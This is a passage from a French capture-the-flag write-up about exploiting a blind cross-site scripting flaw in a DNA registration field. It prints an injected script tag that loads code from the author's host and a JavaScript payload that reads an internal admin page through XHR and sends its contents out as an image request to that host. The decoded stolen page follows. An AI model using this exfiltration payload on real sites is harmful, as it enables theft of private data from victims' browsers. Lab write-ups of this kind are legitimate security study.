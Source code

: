 Finalement ma logique a été de me dire que puisque *Alphonse* est intéressé par notre ADN il va forcément  le regarder. Et ça tombe bien quand on s'enregistre on passe un paramètre `dna_string`.

J'ai donc procédé à un enregistrement en spécifiant la valeur suivante :

```html
<script src="http://192.168.56.1/test2.js"></script>
```

Et après quelques minutes j'obtiens effectivement une requête prouvant que le paramètre est vulnérable à un XSS en aveugle.

La suite logique est d'exfiltrer le cookie de l'utilisateur comme j'ai pu le faire sur le CTF [RedCross de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20RedCross%20de%20HackTheBox.md#call-me). Mais ici j'ai obtenu une réponse vide... C'est peut être dû à l'authentification par JWT que l'on a vu plus tôt ou à l'option httpOnly définie sur le cookie.

J'ai décidé de procédé autrement : je provoque une requête HTTP dans le navigateur d'*Alphonse* pour la page qui m'intéresse, j'obtiens la réponse via XHR puis j'envoie le contenu via le chargement d'une image (on ne peut pas le faire directement via XHR en raison de la *same-origin policy*).

Mon script JS devient alors le suivant :

```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if(xmlhttp.readyState == 4){
        var img = document.createElement("img");
        img.src = "http://192.168.56.1/content" + encodeURI(xmlhttp.responseText);
        document.body.appendChild(img);
    }
}
xmlhttp.open("GET","/dnanalyzer/portal/index.php");
xmlhttp.send();
```

J'obtiens alors une requête sur mon serveur web qui contient la page encodée. Une fois décodée ça ressemble à ceci :

```html
<html>                                                                                                                 
                                                                                                                       
<head>                                                                                                                 
    <meta http-equiv="refresh" content="180">
    <script src="analyze_dna.js"></script>                                                                             
</head>                                                                                                                
                                                                                                                       
<body>                                                                                                                 
    <table border="1">                                                                                                 
        <tr>                                                                                                           
            <td><b>Username</b></td>                                                                                   
            <td><b>DNA string</b></td>                                                                                 
            <td><b>Result</b></td>                                                                                     
            <td><b>Analyze</b></td>                                                                                    
        </tr>                                                                                                          
        <tr>                                                                                                           
```
